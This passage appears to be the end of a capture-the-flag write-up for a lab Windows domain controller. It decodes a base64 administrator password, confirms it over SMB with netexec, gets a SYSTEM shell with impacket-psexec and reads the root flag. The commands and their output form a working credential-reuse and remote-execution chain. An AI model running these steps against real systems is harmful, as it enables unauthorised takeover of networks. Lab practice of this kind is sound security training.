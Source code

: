 ```
uSNCreated                      : 237695
whenChanged                     : 1/27/2020 3:24:34 AM
whenCreated                     : 1/27/2020 3:23:08 AM
```

`echo 'YmFDVDNyMWFOMDBkbGVz' | base64 -d`:
```
baCT3r1aN00dles🔑
```

`netexec smb 10.10.10.182 -u 'administrator' -p 'baCT3r1aN00dles'`:
```
SMB         10.10.10.182    445    CASC-DC1         [*] Windows 7 / Server 2008 R2 Build 7601 x64 (name:CASC-DC1) (domain:cascade.local) (signing:True) (SMBv1:False)
SMB         10.10.10.182    445    CASC-DC1         [+] cascade.local\administrator:baCT3r1aN00dles (Pwn3d!)🚀
```

`impacket-psexec 'cascade.local/administrator:baCT3r1aN00dles@10.10.10.182'`:
```
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Requesting shares on 10.10.10.182.....
[*] Found writable share ADMIN$
[*] Uploading file UPomhXtG.exe
[*] Opening SVCManager on 10.10.10.182.....
[*] Creating service arsO on 10.10.10.182.....
[*] Starting service arsO.....
[!] Press help for extra shell commands
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32> 
```
🐚

![Victim: system](https://custom-icon-badges.demolab.com/badge/Victim-system-64b5f6?logo=windows11&logoColor=white)

`whoami`:
```
nt authority\system
```

`dir C:\Users\Administrator\Desktop`:
```
 Volume in drive C has no label.
 Volume Serial Number is CF98-2F06

 Directory of C:\Users\Administrator\Desktop

11/08/2021  03:58 PM    <DIR>          .
11/08/2021  03:58 PM    <DIR>          ..
01/09/2025  12:54 PM                34 root.txt
               1 File(s)             34 bytes
               2 Dir(s)   6,655,471,616 bytes free
```

`type C:\Users\Administrator\Desktop\root.txt`:
```
c13fd***************************🚩
```

<img src="https://hackmyvm.eu/img/correctflag.png" alt="Machine Hacked!" width="150"/>

---
---
